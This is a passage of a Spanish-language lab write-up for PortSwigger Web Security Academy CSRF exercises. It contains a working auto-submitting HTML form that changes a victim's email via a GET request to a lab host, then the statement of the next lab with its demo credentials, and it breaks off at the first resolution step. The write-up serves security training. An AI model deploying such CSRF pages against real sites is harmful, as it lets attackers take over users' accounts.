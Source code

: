 Vemos que no es como el anterior laboratorio así que cambiamos de POST a GET.

```
<html>
	<body>
		<form action="https://0a5900700399a8b783b41a3e00420018.web-security-academy.net/my-account/change-email" method="GET">
		    <input type="hidden" name="email" value="hola@beafn28.com">
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

<figure><img src="../../.gitbook/assets/image (1482).png" alt=""><figcaption></figcaption></figure>

## Lab: CSRF where token validation depends on token being present

### Enunciado

La funcionalidad de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Usar tu servidor de exploits para alojar una página HTML que realice un ataque CSRF y cambie la dirección de correo electrónico del usuario que la visite.

Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:\
**Usuario**: `wiener`\
**Contraseña**: `peter`

### Resolución

Nos logueamos. Interceptamos la petición si cambiamos el email.
